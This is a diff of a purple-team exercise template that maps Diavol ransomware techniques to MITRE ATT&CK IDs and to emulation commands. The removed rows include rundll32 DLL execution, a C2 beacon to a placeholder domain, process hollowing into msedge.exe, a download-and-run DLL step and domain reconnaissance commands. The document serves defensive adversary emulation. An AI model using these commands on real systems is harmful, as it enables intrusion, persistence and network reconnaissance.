

Before and after one commit to scythe-io/purple-team-exercise-framework, an Excel workbook: Templates/Template_Mapping_TTPs.xlsx, sheet Sheet1, drawn as a sheet; only a part is shown; values as stored, in another font and other column widths than the file's, no borders; charts and pictures not drawn; ↵ is a line break in a cell; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Update Template_Mapping_TTPs.xlsx

```diff
--- a/Templates/Template_Mapping_TTPs.xlsx (sheet Sheet1)
+++ b/Templates/Template_Mapping_TTPs.xlsx (sheet Sheet1)
-row 2: TA0005 ↵ Defense Evasion | T1218.011 ↵ Signed Binary Proxy Execution: Rundll32 | Once opened (mounted) on the users system, it will be prolonged that the ISO contained a LNK file and a DLL | C:\Windows\System32\rundll32.exe SharedFiles.dll,BasicScore | DiavolStage0 | Rundll32 |  | Sample Note
-row 3: TA0011 ↵ Command and Control | T1071.001 ↵ Application Layer Protocol: Web Protocols | After the initial run, the malware contacted two of its C2 IPs | --cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10 | DiavolStage0 | Rundll with netcon |  | rundll with netcon?
-row 4: TA0005 ↵ Defense Evasion | T1055.012 ↵ Process Injection: Process Hollowing | The threat actors made use of process injection during the intrusion. Malware injected into an Edge browser process | loader --load scythe.phollowing ↵ scythe.phollowing --src VFS:/shared/Diavol/DiavolStage1.exe --target "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" | DiavolStage0 | insert new phollow sigma sysmon 25 |  | look into
-row 5: TA0007 ↵ Discovery | T1087.002 ↵ Account Discovery: Domain Account | net group /domain admins ↵ Note: this is a typo, net group /domain "Domain Admins" should have an “s” at the end | loader --load run ↵ run net group /domain ↵ run net group /domain "Domain Admins" | DiavolStage1 |  |  | net with cli params
-row 6: TA0007 ↵ Discovery | T1069.002 ↵ Permission Groups Discovery: Domain Groups | net group "Domain Computers" /domain | run net group "Domain Computers" /domain | DiavolStage1 |  |  | net with cli params
-row 7: TA0007 ↵ Discovery | T1069.001 ↵ Permission Groups Discovery: Local Groups | net localgroup administrator ↵ Note:This is a typo, “administrator” should have an “s” at the end | run net localgroup administrators | DiavolStage1 |  |  | net with cli params
-row 8: TA0007 ↵ Discovery | T1018 ↵ Remote System Discovery | net view /all | run net view /all | DiavolStage1 |  |  | net with cli params
-row 9: TA0007 ↵ Discovery | T1482 ↵ Domain Trust Discovery | nltest /domain_trusts /all_trusts | run nltest /domain_trusts /all_trusts | DiavolStage1 |  |  | nltest with cli params
-row 10: TA0005 ↵ Defense Evasion | T1218.011 ↵ Signed Binary Proxy Execution: Rundll32 | rundll32.exe "%USERPROFILE%\AppData\Local\Temp\tfpkuengdlu.dll",EnterDll | loader --load downloader ↵ downloader --src "VFS:/shared/Diavol/tfpkuengdlu.dll" --dest "%USERPROFILE%\AppData\Local\Temp\tfpkuengdlu.dll" ↵ run rundll32.exe "%USERPROFILE%\AppData\Local\Temp\tfpkuengdlu.dll",EnterDll | DiavolStage1 |  |  | rundll, can tune to enterdll?
```
Also changed, not shown: 9 removed rows elsewhere in this sheet.
